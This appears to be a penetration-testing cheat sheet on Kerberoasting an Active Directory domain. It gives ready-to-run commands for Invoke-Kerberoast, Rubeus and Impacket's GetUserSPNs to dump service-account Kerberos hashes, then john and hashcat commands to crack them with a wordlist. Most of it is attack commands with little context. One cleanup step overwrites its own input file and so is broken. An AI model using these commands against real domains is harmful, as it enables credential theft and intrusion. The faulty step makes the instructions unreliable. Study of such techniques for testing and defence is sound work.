 ##### Requirements
Access to domain (any), but Doman Admin is strongly preferred.

### Enumeration with Invoke-Kerberoast (Powershell Empire)
```
. .\invoke-kerberoast.ps1
Invoke-Kerberoast -OutputFormat hashcat |fl                // Copy this output to a file named "hash1"
sed -r 's/\s+//g' hash1 > hash.txt                         // removes the spaces
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  // cracks the hash
```
##### Enumeration with Rubeus
To dump the Kerberos hash of all kerberoastable users, use:
```
./rubeus.exe kerberoast /nowrap /format:hashcat
```

##### Enumeration with Impacket
Impacket can dump all hashes remotely, provided a valid username and password:
```
sudo python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py DOMAIN_NAME/MACHINE_NAME:PASSWORD -dc-ip MACHINE_IP -request
GetUserSPNs.py DOMAIN_NAME/MACHINE_NAME:PASSWORD -dc-ip MACHINE_IP -request     // usually in PATH
```

##### Hash-cracking
Copy the hash into a file, then use:
```
cat hash.txt | tr -d " \t\n\r" > hash.txt  // Remove the whitespaces
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt  // Crack the hash
```
Note: Most hashes are not crackable